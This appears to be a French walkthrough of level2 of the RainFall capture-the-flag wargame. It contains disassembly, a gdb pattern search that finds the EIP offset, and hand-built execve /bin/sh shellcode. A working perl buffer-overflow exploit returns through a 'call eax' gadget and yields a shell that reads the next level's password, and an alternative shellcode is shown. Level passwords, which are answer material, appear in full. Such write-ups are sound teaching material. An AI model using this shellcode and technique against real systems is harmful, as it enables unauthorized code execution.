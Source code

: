 # level2 :

pass : `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

```bash
level0@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Source :

fonction `main`

```nasm=
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

```cpp=
int		main(int ac, char **av, char **envp) {
	return(p());
}
```

fonction `p`

```nasm=
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

```cpp=
p() {
    int var = fflush(FILE *stream); // trouver l'argument
    // var is save at [ebp-0x4c]
    char str[76];
    str = gets(str);

    if () {
        printf();
        exit(1);
    }
}
```

## Recherche :

```
level2@RainFall:~$ objdump -d level2 | grep "call $eax"
804835c:	e8 00 00 00 00       	call   8048361 <_init+0x9>
8048372:	e8 89 00 00 00       	call   8048400 <__gmon_start__@plt>
8048377:	e8 34 01 00 00       	call   80484b0 <frame_dummy>
804837c:	e8 4f 02 00 00       	call   80485d0 <__do_global_ctors_aux>
804843c:	e8 cf ff ff ff       	call   8048410 <__libc_start_main@plt>
8048488:	ff 14 85 50 97 04 08 	call   *0x8049750(,%eax,4)
80484cf:	ff d0                	call   *%eax
80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
8048545:	e8 8a ff ff ff       	call   80484d4 <p>
8048554:	e8 69 00 00 00       	call   80485c2 <__i686.get_pc_thunk.bx>
804856c:	e8 e7 fd ff ff       	call   8048358 <_init>
804859b:	ff 94 b3 20 ff ff ff 	call   *-0xe0(%ebx,%esi,4)
80485eb:	ff d0                	call   *%eax
8048600:	e8 00 00 00 00       	call   8048605 <_fini+0x9>
804860c:	e8 3f fe ff ff       	call   8048450 <__do_global_dtors_aux>
```
Donc l'addresse `80484cf` fait un call au register EAX. Et en little endian : `\xcf\x84\x04\x08`

```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x804a008 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0x0
EDX: 0xbffff69c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
ESI: 0x0
EDI: 0x0
EBP: 0x41344141 ('AA4A')
ESP: 0xbffff6f0 ("fAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41414a41 ('AJAA')
EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414a41
[------------------------------------stack-------------------------------------]
0000| 0xbffff6f0 ("fAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0004| 0xbffff6f4 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0xbffff6f8 ("AgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0012| 0xbffff6fc ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0xbffff700 ("AAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0020| 0xbffff704 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0xbffff708 ("MAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0028| 0xbffff70c ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 80
EBP+0 found at offset: 76
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~200
[EDX] --> offset 0 - size ~200
[ESP] --> offset 84 - size ~116
Pattern buffer found at:
0x0804a04b : offset   67 - size  133 ([heap])
0xb7fd9043 : offset   67 - size  133 (mapped)
0xb7fda000 : offset    0 - size  200 (mapped)
0xbffff6df : offset   67 - size  133 ($sp + -0x11 [-5 dwords])
References to pattern buffer found at:
0xb7fd1acc : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1ad0 : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1ad4 : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1ad8 : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
0xb7fd1adc : 0xb7fda000 (/lib/i386-linux-gnu/libc-2.15.so)
```

Donc `EIP` est réécrit à l'ofset 80.

Soit le code asm suivant permettant d'executer un `/bin/sh`:
```nasm=
.global main
main:
    push   $0xb
    pop    %eax
    xor    %esi,%esi
    push   %esi
    push   $0x68732f2f
    push   $0x6e69622f
    mov    %esp,%ebx
    xor    %ecx,%ecx
    mov    %ecx,%edx
    int    $0x80
```
 qui compilé donne le shell code suivant :
`\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80`

## Exploit :

```bash
level2@RainFall:~$ (perl -e 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"."\x90"x(80-24)."\xcf\x84\x04\x08"'; cat;) | ./level2
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.3.7",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").

 X1�Vh//shh/bin��1ɉ�̀����������������������������������������������������τ
whoami
level3
pwd
/home/user/level2
cd ../level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

On peut trouver sur internet des shell codes qui fonctionnent directement comme sur cette page :
http://shell-storm.org/shellcode/files/shellcode-811.php

`(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(80-28)."\xcf\x84\x04\x08"'; cat;) | ./level2`

----

## Documentation :

* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 1](https://www.0x0ff.info/2015/buffer-overflow-gdb-part1/)
* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 2](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)
* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 3](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-3/)
* [NASM Tutorial](https://cs.lmu.edu/~ray/notes/nasmtutorial/)
* [hackndo - Buffer Overflow](https://beta.hackndo.com/buffer-overflow/)
![](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
